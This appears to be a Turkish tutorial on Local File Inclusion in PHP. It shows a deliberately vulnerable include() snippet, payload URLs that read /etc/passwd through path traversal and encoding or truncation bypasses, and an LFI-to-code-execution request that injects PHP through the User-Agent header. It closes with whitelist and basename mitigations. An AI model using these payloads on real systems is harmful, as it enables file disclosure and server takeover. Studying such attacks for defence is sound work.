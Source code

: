 # Local File Inclusion (LFI) Nedir
Local File Inclusion, web uygulamalarında kullanıcıdan alınan verilerin dosya yolu olarak işlenmesi sırasında ortaya çıkan bir zafiyetdir. Saldırgan, LFI sayesinde sunucudaki yerel dosyalara erişebilir ve hassas bilgileri elde edebilir.

Örnek olarak bir PHP uygulamasında şöyle bir kod olduğunu düşünelim:
```php
<?php
// index.php
$page = $_GET['page'];
include($page);
?>
```

Bu kod, URL’den gelen page parametresini doğrudan include ediyor. Örneğin:
```
http://example.com/index.php?page=about
```

about.php dosyasını sunucuya dahil eder. Ancak saldırgan parametreyi değiştirerek kritik sistem dosyalarına erişebilir:
```
http://example.com/index.php?page=../../../../etc/passwd
```

Bu durumda sunucu /etc/passwd dosyasının içeriğini döndürebilir.

# Bypass Teknikleri
## Double Encoding
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

## UTF-8 Encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## Path Truncation
```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

## Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

# LFI to RCE
# /proc/self/environ üzerinden RCE
Bir log dosyası gibi çalışır. Payload User-Agent header'ına gönderilirse, bu değer /proc/self/environ içinde yansıtılır.
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```


# LFI Açığını Önlemek
### Input Validation & Whitelisting
Kullanıcıdan gelen dosya adlarını direkt include etme. Sadece izin verilen dosyalar:
```php
$allowed_pages = ['about', 'contact', 'home'];
if(in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page']);
} else {
    echo "Sayfa bulunamadı";
}
```

## Dizin Sabitleme (Directory Traversal Protection)
Kullanıcı inputunu direkt dosya yolu olarak kullanmak yerine, sabit dizinle birleştir:
```php
include(__DIR__ . '/pages/' . basename($_GET['page']));
```